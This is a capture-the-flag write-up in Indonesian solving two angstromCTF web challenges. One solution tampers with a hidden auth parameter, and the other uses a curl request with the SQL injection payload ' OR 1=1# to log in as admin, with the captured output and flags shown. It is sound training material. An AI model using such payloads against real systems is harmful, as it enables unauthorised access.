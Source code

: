 
### GET ME
---
WEB, 30
Get me! Over here.

```html

<!DOCTYPE html>
<html>
<body style="font-size: 18pt; margin: 10% 10% 10% 10%">
  <p>
    Get me! (if you're authorized)
  </p>
  <form method="GET">
    <input type="hidden" name="auth" value="false">
    <input type="submit" value="Submit">
  </form>
</body>
</html>
```

bisa kita lihat disitu ada form dengan method get dan memiliki field auth
dengan value false, ketika kita coba untuk submit form tersebut maka akan di dapatkan output

```
GET => http://web.angstromctf.com:3005/?auth=false
Output => Hey, you're not authorized!

Kita bisa menebak bawha parameter auth adalah boolean yang meiliki false/true
untuk mendapatkan authorisasi kita bisa mengganti false menjadi true

GET => http://web.angstromctf.com:3005/?auth=true
Output => Here you go: actf{why_did_you_get_me}
```


### Sequel
---
WEB, 50
I found what looks like a Star Wars sequel fan club, but I believe the admin user is up to something more nefarious. Can you log in with the admin account and check it out?

Dari nama soalnya yang `Sequel` mungkin memberikan kita clue terhadap SQLInjection
dan memang benar dengan menggunakan payload sederhana seperti `' OR 1=1#` pada field username
dan password kita dapat login dan flag sekaligus :)

```
curl -X POST http://web2.angstromctf.com:2345/ -d "username=' OR 1=1#&password=' OR 1=1#"
<!doctype html>
<html>
        <head>
                <title>Prequel Fan Club</title>
        </head>
        <body style="background-image: url('images/background2.jpeg');">
                <h1 style="position: absolute; top: 50%; left: 50%; transform: translate(-50%, -50%); font-size: 4em; color: red; background-color: yellow; font-
family: sans-serif;">actf{sql_injection_more_like_prequel_injection}</h1>
                <img src="images/anakin.jpg"></img>
                <img src="images/highground.jpg"></img>
                <img src="images/sand.jpg"></img>
                <img src="images/ironic.gif"></img>
                <img style='width: 80%;' src="images/prequels.jpg"></img>
        </body>
</html>#
```
